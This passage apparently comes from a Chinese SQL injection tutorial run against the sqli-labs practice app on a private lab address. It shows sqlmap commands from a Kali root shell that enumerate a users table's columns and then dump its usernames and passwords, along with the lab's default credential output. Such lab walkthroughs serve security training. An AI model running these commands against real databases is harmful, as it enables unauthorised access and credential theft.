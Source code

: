 爆字段

```
┌──(root㉿kali)-[~]
└─# sqlmap -u "http://192.168.1.76/sqli-labs/Less-1/?id=1" --level 5 --risk 2 -f -b --random-agent -D "security" -T "users" --columns
```

```
Database: security   
Table: users
[3 columns]
+----------+-------------+
| Column   | Type        |
+----------+-------------+
| id       | int(3)      |
| password | varchar(20) |
| username | varchar(20) |
+----------+-------------+
```

拖库

```
┌──(root㉿kali)-[~]
└─# sqlmap -u "http://192.168.1.76/sqli-labs/Less-1/?id=1" --level 5 --risk 2 -f -b --random-agent -D "security" -T "users" -C "username,password" --dump
```

```
Database: security
Table: users
[13 entries]
+----------+------------+
| username | password   |
+----------+------------+
| admin    | admin      |
| admin1   | admin1     |
| admin2   | admin2     |
| admin3   | admin3     |
| admin4   | admin4     |
| secure   | crappy     |
| Dumb     | Dumb       |
| dhakkan  | dumbo      |
| superman | genious    |
| Angelina | I-kill-you |
| batman   | mob!le     |
| Dummy    | p@ssword   |
| stupid   | stupidity  |
+----------+------------+
```

### 2.7 进阶注入

**DVWA**
